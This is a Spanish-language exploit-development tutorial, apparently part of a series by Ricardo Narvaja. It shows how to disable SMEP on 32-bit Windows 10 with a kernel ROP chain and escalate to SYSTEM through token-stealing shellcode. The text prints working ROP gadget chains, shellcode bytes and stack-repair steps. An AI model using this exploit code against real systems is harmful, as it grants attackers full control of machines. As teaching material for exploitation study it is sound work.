
Es un archivo grandísimo, pero es una gran tool que sirve y encuentra gadgets en cualquier modulo.
Para leakear la base de nt usamos EnumDeviceDrivers, que devuelve una lista con los nombres y las bases de todos los drivers, generalmente nt es el primero sino podemos comparar el nombre en un loop hasta encontrar el que queremos y hallar la base de ese, veo que si lo ejecuto luego de importar los módulos faltantes, funciona e imprime la base de nt.

En resumidas cuentas yo halle estos gadgets que me servirían para leer cr4 poner ecx a 0xFFEFFFFF para luego hacer and ecx con eax y poner a cero el bit 20 y luego guardarlo de nuevo en cr4, ese sería un buen rop.
input = struct.pack("<I", nt + 0x11fc10) # mov eax, cr4 - retinput += struct.pack("<I", 0x75757575) # junkinput += struct.pack("<I", 0x76767676) # junkinput += struct.pack("<I", nt + 0x51976f) # pop ecx; retinput += struct.pack("<I", 0xFFEFFFFF) # to disable smepinput += struct.pack("<I", nt + 0x50095c) # and eax,ecx; retinput += struct.pack("<I", nt + 0x22f2da) # mov cr4,eax; ret4
El problema es que no lo puedo poner debajo del return address así nomás, porque allí debajo de r está el puntero al source que va leyendo y si lo piso puede crashear hay que hacerlo bien.

Veo que pasándome un solo dword del return address piso el puntero a UserBuffer que es el source, así que no esta tan fácil poner el rop allí debajo.
data=shellcode+ ((0x828 -len(shellcode)) * "A") #shellcode
data+= struct.pack("<I", nt + 0x51976f) #return (pop ecx-ret) data+=struct.pack("<L",int(buf)+0x82c) # puntero a source que piso
data+= input # rop
data+= struct.pack("<L",0x0BAD0B0B0 ) # fin
Una posibilidad sería pisar ese puntero, con un puntero al mismo shellcode más adelante, en este caso hago que el source cuando lo pisa empiece a apuntar al inicio de mi shellcode más 0x82c que es donde está el rop, así sigue copiando el mismo allí debajo y no se rompe, también piso el return address con un pop ecx-ret para que cuando salte a ejecutar saltee ese puntero al source y vaya justo al rop que quedara debajo.
Puedo reacomodar el rop para que me queden varios rets al inicio para compensar que viene de un ret8 a ejecutar, y quitar los paddings intermedios.
input = struct.pack("<I", nt + 0x519770) *4 # retinput += struct.pack("<I", nt + 0x11fc10) # mov eax, cr4 - retinput += struct.pack("<I", nt + 0x51976f) # pop ecx; retinput += struct.pack("<I", 0xFFEFFFFF) # to disable smepinput += struct.pack("<I", nt + 0x50095c) # and eax,ecx; retinput += struct.pack("<I", nt + 0x22f2da) # mov cr4,eax; ret4input += struct.pack("<I", int(buf)) # a shellcode
Cuando lo ejecuto llego al ret

Y voy traceando

Si no se ve el código apreto f7 y si no se ve creo un segmento allí haciendo click derecho


Una dirección baja de inicio del segmento, que abarque la zona donde estoy y un nombre cualquiera es suficiente vuelvo a apretar f7 y aparece el código.

Luego el rop salta acá

Donde queda cr4 en eax, luego hay un pop ecx ret donde pongo 0xffefffff

Luego el and para poner a 0 el bit 20

Y luego volver a guardar el valor modificado en cr4

Recordemos que era 0x1406e9 y ahora 0x406e9 que tiene el bit 20 apagado

bin(0x406e9)
'0b001000000011011101001'
Luego queda saltar al shellcode es muy similar al de Windows 7 pero las estructuras cambian, veamos.

Lo primero que vamos ejecutando son los nops lo cual significa que SMEP quedo bien apagado, sino aquí crashearia la máquina y se reiniciaría.

Recordemos que fs:124 es un puntero a la estructura ETHREAD, la explicación ya la hicimos en el de Windows 7, acá cambiara solo algún offset.

En el windbg incluido en IDA podemos ver la estructura para Windows 10.

Como en el primer campo esta KTHREAD y esta ocupa 0x350, los campos que estamos trabajando están dentro de ella.
Vemos que acá a diferencia de Windows 7, que ApcState que es del tipo _KAPC_STATE, estaba en el offset 0x50, acá está en el offset 0x70.

En el offset 0x10 de esa estructura esta


Pasa a EAX vemos que es el famoso numerito EPROCESS del proceso actual en ECX.

Vemos que Pcb que es del tipo _KPROCESS está en el offset 0, así que coinciden en dirección con _EPROCESS, el tema es que acá busca el offset 0xfc y obvio no está dentro de KPROCESS porque su largo es 0xb0, así que está en EPROCESS más abajo.

Así que lee el Token del proceso actual del offset 0xfc y lo deja en EBX.

Y de 0xb8 lee ActiveProcessLinks

Luego ya lo habíamos explicado en la versión de Windows 7

Es el FLINK o sea que apunta al ActiveProcessLink del proceso siguiente, como eso está en 0xb8 le resta esa constante para hallar el EPROCESS del proceso siguiente.

Luego va comparando el contenido del offset 0xb4 que es el PID, hasta que encuentra el proceso de PID 4 o sea SYSTEM

Una vez que sale del LOOP porque encontró SYSTEM y en EAX queda el EPROCESS del mismo, lee el Token del offset 0xfc y lo copia al proceso actual cuyo EPROCESS había quedado en ECX
Luego queda volver correctamente al proceso sin que crashee lo cual no es fácil, lo del Token ya está listo.
Una de las técnicas es tracear el programa cuando pasa por la misma función pero sin overflow y seguir cuando vuelve de cada función e ir mirando el stack, tratando de ver que cuando hay overflow vuelva en forma similar.
Como aquí yo vuelvo sin overflow y llego ahí hay un retn8 y el stack está en esa posición por lo cual volverá a
Así que trato de volver al mismo lugar y que el stack este en la misma posición cuando hay overflow y tengo que considerar el retn8.
Ven que cuando entro a ejecutar mi shellcode el stack está bastante parecido
Al llegar al popad
El stack estaría bien, así que debo quitar el add esp, 0c que servía para otro exploit, quitar ese push y cambiar el ret por un retn 8 y debería funcionar.
Podrida ser asi
shellcode = struct.pack("<I", 0x90909090) # --[ setup]shellcode += "\x60" # pushadshellcode += "\x64\xa1\x24\x01\x00\x00" # mov eax, fs:[KTHREAD_OFFSET]# I have to do it like this because windows is a little special# this just gets the EPROCESS. Windows 7 is 0x50, now its 0x80.shellcode += "\x8d\x40\x70" # lea eax, [eax+0x70];shellcode += "\x8b\x40\x10" # mov eax, [eax+0x10];shellcode += "\x89\xc1" # mov ecx, eax (Current _EPROCESS structure)# win 10 rs2 x86 TOKEN_OFFSET = 0xfc# win 07 sp1 x86 TOKEN_OFFSET = 0xf8shellcode += "\x8B\x98\xfc\x00\x00\x00" # mov ebx, [eax + TOKEN_OFFSET]# --[ copy system PID token]shellcode += "\xba\x04\x00\x00\x00" # mov edx, 4 (SYSTEM PID)shellcode += "\x8b\x80\xb8\x00\x00\x00" # mov eax, [eax + FLINK_OFFSET] <-|shellcode += "\x2d\xb8\x00\x00\x00" # sub eax, FLINK_OFFSET |shellcode += "\x39\x90\xb4\x00\x00\x00" # cmp [eax + PID_OFFSET], edx |shellcode += "\x75\xed" # jnz ->|# win 10 rs2 x86 TOKEN_OFFSET = 0xfc# win 07 sp1 x86 TOKEN_OFFSET = 0xf8shellcode += "\x8b\x90\xfc\x00\x00\x00" # mov edx, [eax + TOKEN_OFFSET]shellcode += "\x89\x91\xfc\x00\x00\x00" # mov [ecx + TOKEN_OFFSET], edx# --[ recover]shellcode += "\x61" # popadshellcode += "\x31\xc0" # return NTSTATUS = STATUS_SUCCESSshellcode += "\xc2\x08" # ret
Probemos este.
Ahí llegue al mismo punto funcionara? No, aun crashea falta algo más.
Es muy probable que el pop ebp cuando no overflodea
Que saca del stack ese valor antes del retn8 sea el culpable.
Ya que después setea esp con ese valor.
Cambiare allí para que sea retn solo y no retn asi vuelve y luego puedo acomodar ebp en mi shellcode.
input = struct.pack("<I", nt + 0x519770) *2 # ret
input += struct.pack("<I", nt + 0x11fc10) # mov eax, cr4 - ret
input += struct.pack("<I", nt + 0x51976f) # pop ecx; ret
input += struct.pack("<I", 0xFFEFFFFF) # to disable smep
input += struct.pack("<I", nt + 0x50095c) # and eax,ecx; ret
input += struct.pack("<I", nt + 0x11fc1e) # mov cr4,eax; ret
input += struct.pack("<I", int(buf)) # a shellcode
Y al inicio de mi shellcode pongo un pop ebp para que lo levante del stack antes del pushad.
Ahora si ya funciona perfecto hice correr un notepad porque Microsoft en Windows 10 a veces restringe el uso de llamar a calc para joder jeje.
Ahí se ve el usuario SYSTEM o sea que pudimos deshabilitar SMEP y elevar privilegios en Windows 10 de 32 bits.
En 64 bits es igual el metodo, por supuesto hay que adaptar los offsets de las estructuras, y también hay que guardar el valor de cr4, para llamar una vez más para hacer un segundo rop que lo restaure porque si no en 64 bits el PATCH GUARD cada tanto scanea y se da cuenta del cambio y te crashea la máquina, pero en si es el mismo metodo mas trabajoso, pero es la misma idea.
Hasta la próxima parte
Ricardo Narvaja